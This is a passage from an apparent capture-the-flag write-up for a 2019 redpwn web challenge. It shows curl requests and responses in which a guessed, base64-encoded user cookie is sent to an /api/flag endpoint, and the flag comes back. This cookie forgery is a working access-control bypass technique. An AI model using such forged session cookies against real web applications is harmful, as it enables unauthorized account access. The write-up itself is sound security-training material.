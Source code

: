 ```
< HTTP/1.1 200 OK
< Date: Thu, 15 Aug 2019 17:09:07 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
<
* Curl_http_done: called premature == 0
* Connection #0 to host chall.2019.redpwn.net left intact
```

The answer was `Z2hhc3Q6OTQ5NDY`. Use it as user ID and browsing to `api/flag` gave us the flag:

```
$ curl -H 'Cookie: user=Z2hhc3Q6OTQ5NDY'  http://chall.2019.redpwn.net:8008/api/flag -v
*   Trying 34.223.35.192...
* TCP_NODELAY set
* Connected to chall.2019.redpwn.net (34.223.35.192) port 8008 (#0)
> GET /api/flag HTTP/1.1
> Host: chall.2019.redpwn.net:8008
> User-Agent: curl/7.52.1
> Accept: */*
> Cookie: user=Z2hhc3Q6OTQ5NDY
>
< HTTP/1.1 200 OK
< Date: Thu, 15 Aug 2019 17:09:37 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
<
* Curl_http_done: called premature == 0
* Connection #0 to host chall.2019.redpwn.net left intact
flag{th3_AdM1n_ne3dS_A_n3W_nAme}
```

FLAG: **flag{th3_AdM1n_ne3dS_A_n3W_nAme}**

EOF
